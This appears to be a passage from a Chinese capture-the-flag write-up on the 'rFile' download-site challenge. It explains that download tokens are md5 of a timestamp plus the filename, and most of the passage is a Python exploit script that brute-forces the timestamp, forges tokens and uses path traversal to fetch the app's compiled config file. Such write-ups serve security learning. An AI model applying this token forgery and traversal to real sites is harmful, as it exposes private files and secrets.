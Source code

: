 # Rfile #

```
An anti-hotlink file storage.
```
hint
```
rFile is powered by flask, it's designed to be a Large Application at first
```

站内是个下载站，站内的下载做了防盗链，看index.js可以发现每30s会请求api/download，会返回json格式的数据。

![image.png-84.2kB][11]

测试一下发现token是md5(filename+timestamp)，那我们可以随便写个exp

```
import requests
import hashlib   
import json
import sys

reload(sys)
def md5(data):
	src = str(data)
	m2 = hashlib.md5()   
	m2.update(src)   
	return m2.hexdigest()
def getTime(tmpToken,tmpFile,mtime):
	mtime = int(mtime)
	while True:
		if md5(str(mtime)+tmpFile) == tmpToken:
			return mtime
		else:
			mtime = mtime+1

def getToken(filename):
	url = "http://rfile.2017.teamrois.cn/api/download"
	req = requests.get(url=url)
	data = json.loads(req.text)
	tmpToken = data[0]['token']
	tmpFile = data[0]['fname']
	mtime = data[0]['mtime']
	stime = getTime(tmpToken,tmpFile,mtime)
	token = md5(str(stime)+filename)
	return token
def getFile(filename):
	token = getToken(filename)
	url = "http://rfile.2017.teamrois.cn/api/download/"+str(token)+"/"+filename
	print url
	req = requests.get(url = url)
	data = req.text
	print data
	# fp = open("./rfile/__init__.cpython-35.pyc","w")
	# fp.write(data)
	print "download success!"


getFile('../__pycache__/conf.cpython-35.pyc')
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png